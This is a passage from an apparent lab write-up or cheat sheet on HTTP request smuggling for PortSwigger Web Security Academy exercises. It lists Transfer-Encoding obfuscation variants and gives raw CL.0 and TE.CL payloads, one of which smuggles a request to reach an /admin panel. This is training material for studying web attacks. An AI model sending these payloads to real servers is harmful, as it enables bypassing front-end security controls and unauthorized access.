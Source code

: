      Transfer-Encoding : chunked
     
     Transfer-Encoding: chunked
     Transfer-Encoding: x

     Transfer-Encoding:[tab]chunked

     [space]Transfer-Encoding: chunked

     X: X[\n]Transfer-Encoding: chunked

     Transfer-Encoding
     : chunked

     Transfer-encoding: identity
     Transfer-encoding: cow
     ```
     
2. <a name="cl0-request-smuggling">CL.0 Request Smuggling</a>. ([original lab](https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling))
  > You have to Send 2 requests in a group using **single Connection**

  - First Request
    ```HTTP
    POST /resources/images/blog.svg HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    Cookie: session=YOUR-SESSION-COOKIE
    Connection: keep-alive
    Content-Length: automatically

    GET /admin HTTP/1.1
    Foo: x
    ```
  - Second Request\
    Just Normal `GET` Home Request with `HTTP/1.1` protocol.
    
3. TE.CL vulnerability-bypass FE Security or TE.CL Multicase. ([original lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl))
   > Observe that you can now access the admin panel.
   ```HTTP
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-length: 4
   Transfer-Encoding: chunked

   71
   POST /admin HTTP/1.1
   Host: localhost
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0
   ```
   